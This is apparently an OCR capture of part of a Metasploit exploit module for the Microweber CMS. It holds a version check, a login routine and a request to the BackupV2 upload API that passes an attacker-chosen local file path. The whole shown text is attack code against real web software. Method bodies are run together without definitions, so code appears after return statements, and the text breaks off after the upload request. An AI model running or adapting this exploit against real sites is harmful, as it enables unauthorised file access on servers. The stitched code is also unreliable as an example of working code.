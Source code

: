if version == Rex::Version.new('1.2.10')
  print_good 'Microweber version ' + version.to_s
  return Exploit::CheckCode::Appears
end

print_error 'Microweber version ' + version.to_s

if version < Rex::Version.new('1.2.10')
  print_warning 'The versions that are older than 1.2.10 have not been tested. You can follow the exploitation steps of the official vulnerability report.'
  return Exploit::CheckCode::Unknown
end

return Exploit::CheckCode::Safe
if res.nil?
  fail_with(Failure::Unreachable, 'Log in request failed.')
end

if res.code != 200
  fail_with(Failure::Unknown, res.body)
end

json_res = res.get_json_document

if !json_res['error'].nil? && json_res['error'] == 'Wrong username or password.'
  fail_with(Failure::BadConfig, 'Wrong username or password.')
end

if !json_res['success'].nil? && json_res['success'] == 'You are logged in'
  print_good 'You are logged in.'
  return
end

fail_with(Failure::Unknown, 'An unknown error occurred.')
referer = ''
if !datastore['VHOST'].nil? && !datastore['VHOST'].empty?
  referer = "http#{datastore['SSL'] ? 's' : ''}://#{datastore['VHOST']}/"
else
  referer = full_uri
end

res = send_request_cgi({
  'method' => 'GET',
  'uri' => normalize_uri(target_uri.path, 'api', 'BackupV2', 'upload'),
  'vars_get' => {
    'src' => datastore['LOCAL_FILE_PATH']
  },
  'headers' => {
    'Referer' => referer
  }
})

if res.nil?
  fail_with(Failure::Unreachable, 'Upload request failed.')
end
